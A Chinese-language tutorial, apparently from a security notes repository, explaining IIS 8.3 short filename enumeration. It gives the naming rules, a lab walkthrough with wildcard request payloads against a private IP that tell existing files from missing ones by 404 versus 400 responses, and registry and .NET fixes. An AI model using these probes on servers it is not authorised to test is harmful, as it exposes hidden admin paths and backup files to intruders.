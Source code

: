 # IIS 短文件(夹)名猜解

### 前提

1. IIS
2. ASP.NET

### 短文件规则

1. 只保留前六位，后续用~1表示
2. 全部为大写
3. 后缀最多显示三位，其余被截断
4. 长文件名前缀或文件夹名字符长度符合0-9和Aa-Zz范围且需要大于等于9位才会生成短文件名，如果包含空格或者其他部分特殊字符，不论长度均会生成短文件

### 漏洞原理

为了兼容16位MS-DOS程序，Windows为文件名较长的文件（和文件夹）生成了对应的windows 8.3 短文件名。

在Windows下查看对应的短文件名，可以使用命令

```windows
dir /x
```

![](1.png)



#### 根据HTTP的响应区分一个存在或不存在的文件：

访问构造的某个**存在**的短文件名，会返回**404**

访问构造的某个**不存在**的短文件名，会返回**400**

### 漏洞危害

1. 猜解后台地址和目录
2. 猜解敏感文件，如sql，bak等文件

### 漏洞复现

使用通配符*，用于匹配0-n个字符，所以一个\*等同于\*\*\*\*

构造通用payload

```payload
ip/要匹配的短文件名/.aspx
```

1. 访问 192.168.3.127/k\*~1\*/.aspx

   返回400 Bad Request，说明不存在k开头的文件

   ![](3.png)

2. 访问 192.168.3.127/t\*~1\*/.aspx  

   返回404，说明存在 t 开头的文件

![](2.png)

3. 继续猜解 t 开头的短文名，依次在 t 后面尝试Aa-Zz0-9等字符，最多只能猜解六位

![](4.png)

4. 短文件名猜解完，开始猜解后缀，后缀最多猜解三位，其余被截断

访问 192.168.3.127/testgq\*~1\*a\*/.aspx

返回Bad Request，后缀名不是 a 开头

![](5.png)

5. 依次尝试其他字符

访问192.168.3.127/testgq\*~1\*htm\*/.aspx

返回404，说明后缀为htm，即html文件

![](6.png)

6. 脚本暴力猜解演示

![](7.png)

### 漏洞修复

1. 升级.net framework至4.0+版本

2. 修改注册表键值：

   ```register
   HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem
   
   修改NtfsDisable8dot3NameCreation为1
   表示不生成短文件名，重启生效。
   ```



